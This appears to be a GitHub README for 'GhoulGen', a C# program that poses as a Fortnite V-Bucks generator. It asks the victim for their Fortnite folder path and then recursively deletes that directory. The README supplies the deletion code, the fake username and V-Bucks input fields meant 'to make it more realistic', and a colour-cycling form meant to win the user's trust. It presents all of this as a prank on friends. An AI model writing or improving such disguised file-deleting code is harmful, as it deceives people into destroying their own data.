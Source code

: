 ## GhoulGen C# Tutorial
This is a simple program in C#. This is literally all it takes to waste 10 minutes of your friends precious lifetime.
```csharp
if (Directory.Exists(fortnite))
  {
     Directory.Delete(fortnite, true);
  }else{
     MessageBox.Show("Invalid File Path!", "GhoulGen", MessageBoxButtons.OK, MessageBoxIcon.Error);
  }
  ```
 
 It also strings the username and the fortnite directory, aswell as the amount of vbucks he wants. This is just to make it more realistic.
 ```csharp
string userName = username.Text;
string fortnite = textBox1.Text;
```

Also added RGB to the form. Who in the right mind wouldn't trust some random software made in 10 minutes with some cool changing colors?
```csharp
private void rgb()
        {
            Control.CheckForIllegalCrossThreadCalls = false;
            int rgbamount = 1;
            int r = 255;
            int g = 0;
            int b = 0;
            for (; ; )
            {
                this.BackColor = Color.FromArgb(r, g, b);
                bool flag = r > 0 && b == 0;
                if (flag)
                {
                    r -= rgbamount;
                    g += rgbamount;
                }
                bool flag2 = g > 0 && r == 0;
                if (flag2)
                {
                    g -= rgbamount;
                    b += rgbamount;
                }
                bool flag3 = b > 0 && g == 0;
                if (flag3)
                {
                    b -= rgbamount;
                    r += rgbamount;
                }
                Thread.Sleep(5);
            }
        }
```
